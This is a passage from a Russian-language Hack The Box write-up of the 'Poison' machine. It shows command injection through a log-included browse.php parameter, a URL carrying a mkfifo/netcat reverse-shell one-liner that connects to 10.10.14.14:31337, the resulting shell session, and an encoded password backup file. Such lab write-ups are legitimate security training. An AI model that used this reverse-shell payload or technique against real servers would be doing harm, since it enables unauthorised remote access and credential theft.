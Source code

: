 И можем творить, что угодно на сервере, например дадим `ls`:

[![port80-browser-2.png]({{ "/assets/images/htb/poison/port80-browser-2.png" | relative_url }})]({{ "/assets/images/htb/poison/port80-browser-2.png" | relative_url }})
{: .center-image}

### RCE → Reverse-Shell

А здесь и до реверс-шелла недалеко. Перейдем по адресу `http://10.10.10.84/browse.php?file=/var/log/httpd-access.log&cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i |nc 10.10.14.14 31337 >/tmp/f` и получим желанный коннект на netcat:
```text
nc -nlvvp 31337
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::31337
Ncat: Listening on 0.0.0.0:31337
Ncat: Connection from 10.10.10.84.
Ncat: Connection from 10.10.10.84:62021.

whoami
www

id
uid=80(www) gid=80(www) groups=80(www)

uname -a
FreeBSD Poison 11.1-RELEASE FreeBSD 11.1-RELEASE #0 r321309: Fri Jul 21 02:08:28 UTC 2017     root@releng2.nyi.freebsd.org:/usr/obj/usr/src/sys/GENERIC  amd64

ls -la
total 72
drwxr-xr-x  2 root  wheel   512 Mar 19 16:27 .
drwxr-xr-x  6 root  wheel   512 Jan 24  2018 ..
-rw-r--r--  1 root  wheel    33 Jan 24  2018 browse.php
-rw-r--r--  1 root  wheel   289 Jan 24  2018 index.php
-rw-r--r--  1 root  wheel    27 Jan 24  2018 info.php
-rw-r--r--  1 root  wheel    33 Jan 24  2018 ini.php
-rw-r--r--  1 root  wheel    90 Jan 24  2018 listfiles.php
-rw-r--r--  1 root  wheel    20 Jan 24  2018 phpinfo.php
-rw-r--r--  1 root  wheel  1267 Mar 19 16:27 pwdbackup.txt
```

```text
cat pwdbackup.txt
This password is secure, it's encoded atleast 13 times.. what could go wrong really..

Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVU
bGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBS
bVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVW
M040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRs
WmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYy
eG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01G
WkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYw
MXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVa
T1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5k
WFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZk
WGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0
NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZT
Vm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZz
WkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBW
VmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpO
Ukd4RVdub3dPVU5uUFQwSwo=
```
